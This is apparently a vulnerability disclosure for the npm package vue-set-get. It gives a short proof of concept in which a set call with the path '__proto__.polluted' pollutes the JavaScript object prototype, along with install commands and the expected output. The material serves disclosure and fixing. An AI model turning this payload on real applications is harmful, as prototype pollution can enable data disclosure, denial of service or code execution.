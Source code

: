 # Description

`vue-set-get` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('vue-set-get')

console.log(`Before: ${{}.polluted}`)
set({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i vue vue-set-get # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

